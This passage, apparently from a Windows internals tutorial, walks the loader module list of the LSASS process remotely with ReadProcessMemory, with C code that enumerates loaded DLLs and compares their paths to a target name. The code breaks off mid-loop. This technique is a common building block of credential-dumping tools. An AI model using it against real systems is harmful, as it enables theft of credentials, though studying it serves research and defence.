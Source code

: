 Within the `PEB_LDR_DATA` structure we can loop through `InLoadOrderModuleList` or the `InMemoryOrderModuleList` list to see all the modules.  They in theory should contain the same module pointers, just arranged based on when they were loaded into the process or based on how they're arranged in memory, but wholistically contain the same information.


```c 
	// 4) Compute remote address of list head (InMemoryOrderModuleList)
	//    and read the head LIST_ENTRY
	const BYTE* remoteLdrBase = (const BYTE*)peb.Ldr;
	const BYTE* remoteHeadAddr = remoteLdrBase + offsetof(PEB_LDR_DATA, InMemoryOrderModuleList);
```

Now with a pointer to the head list entry address inside of LSASS we can read that to extract the `LIST_ENTRY` structure.

```c
	LIST_ENTRY headLE = { 0 };
	if (!ReadProcessMemory(hTarget, remoteHeadAddr, &headLE, sizeof(headLE), NULL)) {
		printf("headLE\n");
		return false;
	}
	printf("retrieved remote head entry addr\n");
```


From here we keep this the same as our comparison to make sure we dont constantly loop through the modules, and can start Flinking through the loaded DLLs.
```c
	// 5) Iterate: remoteCurrent points to a remote LIST_ENTRY
	const LIST_ENTRY* remoteCurrentAddr = headLE.Flink;
	printf("Out of while loops\n");
	while (remoteCurrentAddr != (const LIST_ENTRY*)remoteHeadAddr) {
		// Read the current remote LIST_ENTRY
		LIST_ENTRY curLE = { 0 };
		if (!ReadProcessMemory(hTarget, remoteCurrentAddr, &curLE, sizeof(curLE), NULL))
			break;
		// Compute the remote address of the containing LDR_DATA_TABLE_ENTRY:
		//   entryAddr = remoteCurrentAddr - offsetof(LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks)
		const BYTE* remoteEntryAddr =
			(const BYTE*)remoteCurrentAddr - offsetof(LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

		// Read only the fields we need from the entry to keep it robust
		struct {
			LIST_ENTRY InLoadOrderLinks;
			LIST_ENTRY InMemoryOrderLinks;
			LIST_ENTRY InInitializationOrderLinks;
			PVOID      DllBase;
			PVOID      EntryPoint;
			ULONG      SizeOfImage;
			UNICODE_STRING FullDllName;
			UNICODE_STRING BaseDllName;
		} entry;

		if (!ReadProcessMemory(hTarget, remoteEntryAddr, &entry, sizeof(entry), NULL))
			break;

		// Read the UNICODE_STRING buffer (full path)
		wchar_t fullPath[MAX_PATH * 4]; // large enough for winSxS paths
		if (!ReadUnicodeStringRemote(hTarget, &entry.FullDllName, fullPath, _countof(fullPath)))
			fullPath[0] = L'\0';

		// Debug print
		wprintf(L"Reading %s\n", fullPath);

		// Compare
		if (_wcsicmp(fullPath, wTargetDLL) == 0) {
```
